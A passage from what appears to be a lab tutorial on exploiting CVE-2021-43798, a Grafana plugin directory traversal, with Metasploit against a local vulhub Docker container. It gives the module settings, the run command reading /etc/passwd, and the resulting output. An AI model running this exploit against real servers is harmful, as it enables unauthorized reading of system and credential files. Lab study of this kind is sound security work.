 ```
  Grafana versions 8.0.0-beta1 through 8.3.0 prior to 8.0.7, 8.1.8, 8.2.7, or 8.3.1 are vulnerable to directory traversal
  through the plugin URL.  A valid plugin ID is required, but many are installed by default.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2021-43798
  https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
  https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
  https://www.exploit-db.com/exploits/50581
  https://github.com/jas502n/Grafana-CVE-2021-43798
  https://github.com/grafana/grafana/commit/c798c0e958d15d9cc7f27c72113d572fa58545ce
  https://labs.detectify.com/security-guidance/how-i-found-the-grafana-zero-day-path-traversal-exploit-that-gave-me-access-to-your-logs/


View the full module info with the info -d command.
```
The above command will do the following task:
1. First is to load module so we can use it
2. We show the details of the module, this means it will show options that need to be adjusted, descriptions and references related to the module. If you take a look at references, you can see a lot of them is pointing to the same CVE as the one in our current local vulhub github folder when we run docker-compose up. 

To use the module you can take a look at "Basic options" section this shows what parameters you need to be adjusted and you don't have to adjusted every parameter as a rule of thumb set parameter for parameter that has required yes but the current setting is empty. Which in this case will be RHOSTS. As the description show this parameter hold the ip address of our target which my case the docker ip address 172.20.0.2 and we don't have to change the target port since its the same with our target.
To set the RHOSTS parameter run the following command in metasploit console:

```
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > set RHOSTS 172.20.0.2
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > set FILEPATH /etc/passwd
```
The second command will be used as a testing file, we will try using the exploit to retrieve /etc/passwd file inside the target docker. This is not mandatory but rather as a testing mechanism because /etc/passwd will always be available in every linux distribution.
```
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > run
[+] Detected vulnerable Grafana: 8.2.6
[*] 172.20.0.2 - Progress   0/40 (0.0%)
[+] alertlist was found and exploited successfully
[+] 172.20.0.2:3000 - File saved in: /home/kali/.msf4/loot/20250814232603_default_172.20.0.2_grafana.loot_972971.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > cat /home/kali/.msf4/loot/20250814232603_default_172.20.0.2_grafana.loot_972971.bin
[*] exec: cat /home/kali/.msf4/loot/20250814232603_default_172.20.0.2_grafana.loot_972971.bin

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
```